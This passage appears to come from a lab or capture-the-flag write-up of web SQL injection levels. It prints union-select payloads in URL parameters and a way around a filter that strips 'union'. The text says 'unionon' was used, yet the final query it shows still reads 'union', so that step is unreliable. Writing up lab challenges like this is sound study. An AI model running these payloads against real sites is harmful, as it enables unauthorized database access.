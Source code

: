 \documentclass{article}
\begin{document}
\begin{verbatim}
	?showprofile=4' and 0=1 union select user(),version(),'','
\end{verbatim}

\subsection{Level 3}

This challenge is practically identical in structure to the previous one. Attempting to run a slightly altered version of the final URL parameter from the previous level gave the following error message.

\begin{verbatim}
	...syntax to use near 'uni select user(),version(),'',''' at...
\end{verbatim}

As the error message shows, the word `union' is being converted to `uni'. To combat this, we attempted to use the word `unionon', and that worked. The final query is shown below.

\begin{verbatim}
	?item=3' and 0=1 union select user(),version(),'','
\end{verbatim}

\subsection{Level 4}

Again, this challenge was identical to the second one, other than there being a different number of columns. The first thing we tried was to use the same query as the one from Level 2, then when we were told there was a different number of columns, we added some more until we got the right answer. This is the final query.

\begin{verbatim}
	?ebookid=7' and 0=1 union select user(),version(),'','','
\end{verbatim}
\end{document}

